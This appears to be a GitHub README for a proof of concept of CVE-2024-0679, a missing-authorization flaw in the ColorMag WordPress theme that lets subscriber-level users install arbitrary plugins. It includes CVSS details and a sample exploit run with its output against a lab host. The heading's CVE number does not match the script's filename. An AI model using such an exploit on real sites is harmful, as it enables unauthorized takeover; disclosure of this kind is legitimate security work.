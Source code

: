 # CVE-2024-0679
ColorMag &lt;= 3.1.2 - Missing Authorization to Authenticated (Subscriber+) Arbitrary Plugin Installation/Activation

# Description:
The ColorMag theme for WordPress is vulnerable to unauthorized access due to a missing capability check on the plugin_action_callback() function in all versions up to, and including, 3.1.2. This makes it possible for authenticated attackers, with subscriber-level access and above, to install and activate arbitrary plugins.

```
Severity: medium
CVE ID: CVE-2024-0679
CVSS Score: 6.5
CVSS Metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:N
Plugin Slug: colormag
WPScan URL: https://www.wpscan.com/plugin/colormag
Reference URL: https://www.wordfence.com/threat-intel/vulnerabilities/id/e982d457-29db-468f-88c3-5afe04002dcf?source=api-prod
```

POC
---

```
$ python3 CVE-2024-0705.py --url http://wordpress.lan --username user --password useruser1 --slug ai-engine --plugin ai-engine/ai-engine.php
Logged in successfully.
Getting Nonce!
5e0195de06
Installing Plugin!
HTTP STATUS: 200 Response: {"success":true,"data":{"message":"Plugin activated successfully!"}}
```

